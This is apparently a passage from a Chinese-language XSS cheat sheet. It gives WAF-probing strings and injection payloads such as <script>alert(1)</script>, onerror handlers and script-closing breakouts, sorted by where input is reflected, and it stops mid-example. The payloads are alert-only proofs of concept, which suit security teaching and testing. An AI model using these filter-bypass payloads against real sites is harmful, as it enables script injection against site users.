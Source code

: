 # XSS备忘录

## 0x00 渗透流程

1. 观察输入输出点，测试waf过滤情况

   ```javascript
   简单: "'<script javascript onload src><a href></a>#$%^
   全面: '";!-=#$%^&{()}<script javascript data onload href src img input><a href></a>alert(String.fromCharCode(88,83,83));prompt(1);confirm(1)</script>
   ```

   观察输入输出情况，一些特殊字符是否被编码、标签是否被过滤、输出点在标签之间或标签之内

2. 依据输出位置进行XSS

   - 标签之间：

     ```javascript
     模型： <div>[xss]</div>
     payload： <script>alert(1)</script>或者<img src=1 onerror=alert(1)>
     这些标签有：
     <a> <p> <img> <body> <button> <var> <div> <object> <input> <select> <keygen> <frameset>  <embed> <svg> <video> <audio>
     自带HtmlEncode（转义）功能的标签(RCDATA)，这是插入的javascript不会被执行，除非我们闭合掉它们。
     <textarea></textarea>
     <title></title>
     <iframe></iframe>
     <noscript></noscript>
     <noframes></noframes>
     <xmp></xmp>
     <plaintext></plaintext>
     其他：<math></math>也不行 
     ```

   - 在JS标签内：

     在该位置，空格被过滤，可用/**/代替空格。输出在注释中，通过换行符%0a %0d使其逃逸出来。

     1. 不在字符串内。

        判断<>/是否被过滤。如果没有，那么直接插入就可以。

        ```Javascript
        <script>
        [output]
        </script>
        payload：</script><script>alert(1)</script>
        ```

     2. 在字符串中

        此时需要闭合字符串，并保证插入的JS代码符合语法规范。

        如：
